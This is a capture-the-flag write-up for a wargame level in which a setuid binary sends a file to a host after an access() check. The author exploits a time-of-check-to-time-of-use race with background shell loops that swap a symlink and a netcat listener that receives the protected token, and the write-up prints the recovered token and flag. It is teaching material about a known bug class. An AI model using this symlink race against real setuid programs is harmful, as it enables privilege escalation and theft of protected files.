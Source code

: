 ## writeup level10

When we logged in as user level10, we see two files: one token file, and one binary with suid bit.
```shell
$ ls -l token level10
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token

$ ./level10
./level10 file host
	sends file to host if you have access to it
```
We learn this binary sends a file to host. With some gdb debugging, we learn it uses first `access` to check if the file is accessible, \
it then uses `socket` to create a connection on the port **6969**, it then opens the file, and write the content to the socket. \
With `netcat` we can create a little tcp server that listens on that port:
```shell
$ nc -l 6969 &
```
We then try to send the token file to host `0.0.0.0`:
```shell
$ ./level10 $PWD/token 0.0.0.0
You don't have access to /home/user/level10/token
```
Hum well, we cannot use this file because of permissions... But after some search, we found [on wikipedia](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use), that we can do a race condition to bypass the `access` function.
So we did and:
```shell
$ # we create a file so it has our permissions
$ touch /tmp/toto

$ # then we create a loop that we put in the background 
$ # that symlinks /tmp/token to /tmp/toto first and then to the token file
$ while true; do
	ln -sf /tmp/toto /tmp/token;
	ln -sf /home/user/level10/token /tmp/token;
done &

$ # then we put another loop in the background and we run the executable
$ while true; do
	if ./level10 /tmp/token 0.0.0.0 &>/dev/null; then break; fi
done &

$ # then we run a loop that every 0.1s will run the netcat server and sometime print the flag
$ while sleep 0.1; do
  nc -l 6969
done
...
woupa2yuojeeaaed06riuj63c
...
^C

$ su flag10
woupa2yuojeeaaed06riuj63c

$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
